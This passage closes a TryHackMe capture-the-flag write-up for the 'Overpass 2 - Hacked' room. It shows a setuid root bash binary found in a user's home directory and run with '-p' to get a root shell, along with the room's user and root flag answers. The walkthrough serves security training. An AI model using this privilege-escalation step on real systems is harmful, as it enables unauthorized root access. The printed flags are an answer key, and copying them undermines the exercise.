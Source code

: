 And we're in! 

> What's the user flag?
> 
> Answer: `thm{d119b4fa8c497ddb0525f7ad200e6567}`

Now, we can just remove the backdoor and restore the server, but it's better to gain root access and be thorough in case the hacker has gotten to making their access persistent in some way. Let's check some stuff before proceeding:
```shell-session
james@overpass-production:/home/james$ ll
total 1136
drwxr-xr-x 7 james james    4096 Jul 22  2020 ./
drwxr-xr-x 7 root  root     4096 Jul 21  2020 ../
lrwxrwxrwx 1 james james       9 Jul 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 james james    3771 Apr  4  2018 .bashrc
drwx------ 2 james james    4096 Jul 21  2020 .cache/
drwx------ 3 james james    4096 Jul 21  2020 .gnupg/
drwxrwxr-x 3 james james    4096 Jul 22  2020 .local/
-rw------- 1 james james      51 Jul 21  2020 .overpass
-rw-r--r-- 1 james james     807 Apr  4  2018 .profile
-rw-r--r-- 1 james james       0 Jul 21  2020 .sudo_as_admin_successful
-rwsr-sr-x 1 root  root  1113504 Jul 22  2020 .suid_bash*
drwxrwxr-x 3 james james    4096 Jul 22  2020 ssh-backdoor/
-rw-rw-r-- 1 james james      38 Jul 22  2020 user.txt
drwxrwxr-x 7 james james    4096 Jul 21  2020 www/

james@overpass-production:/home/james$ file .suid_bash
.suid_bash: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=12f73d7a8e226c663034529c8dd20efec22dde54, stripped
```

Looks like there's an interesting file called `.suid_bash` that may be used to gain root privileges. Assuming that the executable's just starts a shell, we can do the following to get root access:
```shell-session
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# whoami
root
.suid_bash-4.4# cd /root
.suid_bash-4.4# ls
root.txt
.suid_bash-4.4# cat root.txt
thm{d53b2684f169360bb9606c333873144d}
```

And there it is! The root flag.

> What's the root flag?
>
> Answer: `thm{d53b2684f169360bb9606c333873144d}`

## Conclusion

If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Author: Aliasgar Khimani
- Room: [Overpass 2 - Hacked](https://tryhackme.com/room/overpass2hacked)
